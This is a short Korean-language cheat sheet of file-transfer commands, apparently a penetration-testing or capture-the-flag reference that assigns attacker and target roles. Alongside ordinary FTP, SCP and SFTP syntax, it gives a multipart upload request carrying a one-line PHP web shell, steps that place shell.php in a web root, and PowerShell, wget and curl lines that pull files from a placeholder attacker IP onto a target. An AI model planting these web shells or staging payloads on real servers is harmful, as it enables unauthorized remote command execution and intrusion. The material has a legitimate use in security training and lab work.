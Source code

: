 ## 파일 업로드 명령어 예시

### 로컬에서 원격으로 파일 전송하기

**FTP 업로드**

```bash
ftp> put 파일명                      # 현재 디렉토리 파일 업로드
ftp> put /경로/파일명                # 특정 경로의 파일 업로드
```

**SCP 업로드**

```bash
scp 파일명 사용자@원격IP:/목적지/경로   # 기본 형식
scp shell.php admin@10.10.10.10:/var/www/html/  # 실제 예시
scp -P 2222 shell.php user@10.10.10.10:/tmp/    # 포트 지정
```

**SFTP 업로드**

```bash
sftp 사용자@원격IP
sftp> put 파일명 목적지경로          # 특정 경로에 업로드
sftp> put shell.php /var/www/html/   # 실제 예시
```

**NC 사용**

```bash
# 수신측(타겟)
nc -lvp 1234 > 받을파일명

# 전송측(공격자)
nc 타겟IP 1234 < 보낼파일명
```

**웹쉘/파일 업로더 사용 시**

```
POST /upload.php HTTP/1.1
Content-Type: multipart/form-data; boundary=----WebKitFormBoundary

------WebKitFormBoundary
Content-Disposition: form-data; name="uploadfile"; filename="shell.php"
Content-Type: application/x-php

<?php system($_GET['cmd']); ?>
------WebKitFormBoundary--
```

**PowerShell 다운로드(윈도우 타겟)**

```powershell
# 원격에서 파일 가져오기
(New-Object System.Net.WebClient).DownloadFile("http://공격자IP/파일명", "C:\저장경로\파일명")
```

**Python 업로드 서버**

```bash
# 공격자 측에서 업로드용 서버 실행
python3 -m http.server 8000

# 타겟에서 파일 다운로드
wget http://공격자IP:8000/파일명
curl -O http://공격자IP:8000/파일명
```

**curl 사용**

```bash
curl -F "file=@/경로/파일명" http://타겟IP/upload.php
```

`@`는 curl에서 파일 업로드할 때 로컬 파일임을 나타내는 표시입니다. `-F` 옵션과 함께 사용합니다.
